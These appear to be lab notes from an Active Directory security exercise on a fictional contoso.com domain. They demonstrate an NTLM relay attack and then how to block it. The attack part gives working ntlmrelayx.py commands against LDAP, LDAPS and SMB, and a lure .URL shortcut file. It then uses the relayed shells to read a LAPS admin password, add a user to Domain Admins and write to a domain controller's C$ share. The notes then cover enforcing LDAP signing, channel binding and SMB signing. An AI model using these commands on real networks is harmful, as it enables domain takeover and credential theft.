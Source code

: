 
![[Pasted image 20231013161307.png]]

Protection 
- Enforce LDAP signing 
- Enforce LDAPs channel binding 
- Enforce SMB signing
- Enforce HTTPs with Extended

Protection 
- Disable NTLM on web services 
- Use the Protected Users group (for privileged account) 
- Block NTLM on system where it is not required (hard to achieve) 
- Disable NTLM v1

## How to Abuse NTLM authentication protocol

Perform an NTLM relay attack to impersonate Katrina's account against AD DS.

###  Prepare the attack

Start a fake HTTP service with the only objective to perform an NTLM relay attack against AD DS using LDAP.
  
Use of the python script **ntlmrelayx.py** that listen on a fake HTTP service and relay all connections to AD and open an LDAP interactive shell.

```powershell
python.exe ntlmrelayx.py --no-smb-server --no-raw-server --no-wcf-server -i -t ldap://dc01

or 

python.exe ntlmrelayx.py --no-smb-server --no-raw-server --no-wcf-server -i -t ldaps://dc01.contoso.com
```

It starts to listen on connections on port 80. Leave that running.

Create a shortcut file `CLICK.URL` to trick a user into clicking it
    ```
    [{000214A0-0000-0000-C000-000000000046}]
    Prop3=19,2
    [InternetShortcut]
    IDList=
    URL=http://cli01.contoso.com/
    IconIndex=234
    HotKey=0
    IconFile=C:\Windows\System32\SHELL32.DLL
    ```

### Relay an authentication

When we click on the file : 
![[Pasted image 20231021191610.png]]

In your **Windows Terminal (Admin)** window, you should see the following: 

![[Pasted image 20231021191700.png]]
You can see that the message indicates that an interactive shell was starting.

Now we can start a netcat on : 
`ncat 127.0.0.1 11000` 

In the **C:\Program File (x86)\Nmap\ncat.exe** window run `help` to get the list of commands. Then type `get_laps_password SRV01$`. 
Here you go, you have the password of the default local admin of SRV01. 
Let's play a joke on **Mister Blue** and add yourself to the **Domain Admins** group. Run the following: `add_user_to_group red "domain admins"`. 
Here you go, your own account is now a member of the domain admins group: ![DA.png](https://labondemand.blob.core.windows.net/content/lab127288/DA.png)

### Remediation - Enforce LDAP signing

The attack was possible because of multiple factors:

1. The user clicked where she shouldn't have, maybe a bit of user training is a good idea
2. NTLM was enabled for an admin account
3. Signing was not enforce on the LDAP component of the domain controller

For 1, well go train your admins. For 2, we have seen some mitigation already. For 3, let's enforce LDAP signing.

In the **Run** window, type `gpmc.msc` and click **OK**.

Navigate to **Group Policy Management > Forest: contoso.com > Domain > contoso.com > Domain Controllers**. Right click on Default Domain Controller Policy and click Edit.

**Default Domain Controller Policy [DC01.contoso.com]** > **Computer Configuration** > **Policies** > **Windows Settings** > **Security Settings** > **Local Policies** > **Security Options**. 

Double click on **Domain controller: LDAP server signing requirements**. 

Then click **Define this policy setting**, pick **Require signing** from the drop down menu, and click **OK**
    Forcing signing in that case did not affect the connection made over TLS. Enforcing LDAP Signing is not enough. You also need to enforce what is called the Channel Binding Token for LDAPS connections.


### Then enforce LDAPS channel binding token

This time you are going to do things on **DC02**. We will see why a bit later.


In the **Run** window, type `gpmc.msc` and click **OK**.
**Group Policy Management** > **Forest: contoso.com** > **Domain** > **contoso.com** > **Domain Controllers**. Right click on **Default Domain Controller Policy** and click **Edit**.
    
In the **Group Policy Management Editor** window, navigate **Default Domain Controller Policy [DC01.contoso.com]** > **Computer Configuration** > **Policies** > **Windows Settings** > **Security Settings** > **Local Policies** > **Security Options**. Double click on **Domain controller: LDAP server channel binding token requirements**. Pick **Always** from the drop down menu, and click **OK**.
    
    > If you do not see this option, you might be connected to DC01 and not DC02. DC01 is missing security updates in your lab. Hence the option isn't there. That's why we do that on DC02. Note that the GPMC console can be pointing to DC01 that's fine. But the console has to be opened from DC02 in your lab.

If you want to check if that protection worked, you can run the following from **CLI01**: `python.exe ntlmrelayx.py --no-smb-server --no-raw-server --no-wcf-server -i -t ldaps://dc02.contoso.com` and try to connect with Katrina again.



### Try again to relay Katrina's connection



`python.exe ntlmrelayx.py --no-smb-server --no-raw-server --no-wcf-server -i -t smb://192.168.1.11 -smb2support --remove-mic`
This time it is an NTLM relay to the SMB server of DC01, not LDAP. So this time if SMB Signing is not enforce on the server side, you'll get an easy access too 😎

 Refresh the **Edge** window (it should still be the address `http://cli01.contoso.com`).
Then go back on **[CLI01](https://labclient.labondemand.com/Instructions/477566ac-67c8-4de5-9b37-b38f90b2bb87?rc=10#)**. And have a look at the terminal: ![SMBOWNED.png](https://labondemand.blob.core.windows.net/content/lab127288/SMBOWNED.png)
 `ncat 127.0.0.1 11000`

In the **C:\Program File (x86)\Nmap\ncat.exe** window run `shares`. This display all available share. Let's get into **C$**, run `use c$` then run `mkdir IWASTHERE`. Now list all the files and folders in the share with `ls`. You can see your new folder of the C drive of the DC: !!

![[Pasted image 20231101220246.png]]

How to block this one? Well simple. Like we enforced LDAP signing, **Mister Blue** will have to enable SMB signing.

### Enforce SMB Signing

 You blocked relay attack on LDAP, but not on the SMB service (the file server service). And this time the scope of the risk is bigger. The LDAP service is available only on domain controllers. But the file server service, it might be on pretty much all machines. So, to stop the attack everywhere, let's enforce the SMB signing on all systems.

`gpmc.msc` 
 **Group Policy Management** > **Forest: contoso.com** > **Domain** > **contoso.com**. Right click on **Default Domain Policy** and click **Edit**.

In the **Group Policy Management Editor** window, navigate **Default Domain Controller Policy [DC01.contoso.com]** > **Computer Configuration** > **Policies** > **Windows Settings** > **Security Settings** > **Local Policies** > **Security Options**. Double click on **Microsoft network server: Digitally sign communications (always)**. Then click **Define this policy setting**, select **Enabled** and click **OK**.
